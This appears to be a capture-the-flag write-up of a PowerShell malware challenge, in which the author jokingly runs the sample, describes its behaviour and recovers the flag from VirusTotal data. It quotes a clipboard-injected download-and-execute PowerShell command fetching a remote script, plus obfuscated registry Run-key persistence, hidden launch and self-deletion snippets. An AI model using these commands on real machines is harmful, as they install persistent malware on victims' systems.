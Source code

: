 # Challenge Description

> Rumors whisper of a shadow moving beneath the Silver Moon.
Investigate the strange occurrences and reveal the demon’s hidden technique before it’s too late
>
> WARNING: Do not run the malware file on your PC.
https://powershell.wwctf.com/ 

# Overview

Let's start by looking at what the site does. We can directly see that when we click on the file path as requested, it modifies our clipboard by discreetly adding a PowerShell script.

```js
powershell -ep bypass -w hidden IEX(New-ObjEct System.Net.Webclient).Downloadstring('https://powershell.wwctf.com/update.ps1')                                                                    
```

# Who could be stupid enough to launch it by accident?

**I launched it**. Few seconds after the challenge was published. And it took a few seconds before I realized what I had just done... The PowerShell script was huge as fuck *(19Mo)*, it even crashed my VSCode instantly at the first opening...

<div align="center">
	<p><b>me during the challenge:</b></p>
  <img src="https://imgur.com/4ccuSDG.png" width="300">
</div>

This PowerShell Script will create an ``update.exe`` in ``$env:USERPROFILE\Documents\J1Csum3Dcj``, it will add persistence by launching it at user login. It will then launch the executable and then delete it from the folder. What could go wrong with running this on my computer without checking?

### Persistence
```ps
Set-ItemProperty -Path ((("{8}{2}{5}{1}{0}{6}{3}{7}{4}"-f'ows{0}C','d','oftwar','rr','Version{0}Run','e{0}Microsoft{0}Win','u','ent','HKCU:{0}S'))  -F[char]92) -Name ("{2}{0}{1}"-f 'Ao','prv','l') -Value "$env:USERPROFILE\Documents\J1Csum3Dcj\update.exe"
```

### Launch the malware
```ps
$ws=New-Object -ComObject WScript.Shell;$ws.Run($EHPoSQvgWxy,0,$false)
```

### Delete the malware
```ps
Remove-Item $MyInvocation.MyCommand.Path -Force
```

# VirusTotal

Just to be extra sure about what I had just done, I decided to remove the part that deletes ``update.exe`` and upload the file to VirusTotal. You know… just to be sure.

<div align="center">
  <img src="https://imgur.com/6QsRV0c.png">
</div>

In French, we'd say I was *["chokbar"](https://dictionnaire.orthodidacte.com/article/definition-chokbar-de-bz)*. So I basically ran, on my own machine, a program that's flagged as malicious by more than 50% of [antivirus engines](https://www.virustotal.com/gui/file/88d8aa69350b8516857c2fee3de800dc7e8afefd5660f27d3fadde51c349fdac/behavior)?

![https://imgur.com/EyETDJ9.png](https://imgur.com/EyETDJ9.png)

# Analysis

In the VirusTotal report, you can see the program communicate to two local IPs: ``192.168.100.157`` on port ``8080``, and ``192.168.75.130`` on port ``443``. But I mean... why bother analyzing the traffic in a safe environment when the malware’s already chilling on my machine, right?

So yeah, I just kept running the damn thing to see what else it would do. Unfortunately, I was not able to capture the flag due to encrypted traffic. Then Windows Defender suddenly woke up and started blocking the program, so I put the program in a .7z and uploaded it to VirusTotal again. The program was still flagged as malicious. But this time, we got some new info on what it was doing.

# Finding the flag

In the **Memory Pattern Urls** section, we can see a lot of URLs that the program tries to access. In the list, we can see a URL that looks interesting: ``https://192.168.75.130?flag=d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=``.

**Wait a sec. That looks like a flag. Let’s decode it with base64.**
```bash
┌─[raphckrman@raphckrman]─[~]
└──╼ $echo "d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=" | base64 --decode
wwf{f1l3f1x_t0_sl1v3r_b34c0n}
```

Boom. Got it. I don't think this is the intended way to solve the challenge, but I mean... it works, right, a flag is a flag ?
<div align="center">
  <img src="https://imgur.com/UxYviGT.png" width="400">
</div>

# Is this the intended way to solve the challenge?

No, not at all. Besides, after I solved the challenge, the creator of the challenge, @serioton, reached out to me to discuss my approach. We had a fun conversation about the challenge and its intended solution.

![https://imgur.com/r8IeKnR.png](https://imgur.com/r8IeKnR.png)

I knew it was weird I got the flag so easy, like 30 minutes after the challenge went live. The creator’s totally confused about how VirusTotal spotted the flag with that encryption layer in the way…

![https://imgur.com/O1zRvh3.png](https://imgur.com/O1zRvh3.png)
<div align="center">
  <img src="https://imgur.com/O4CKYvZ.png" width="400">
</div>
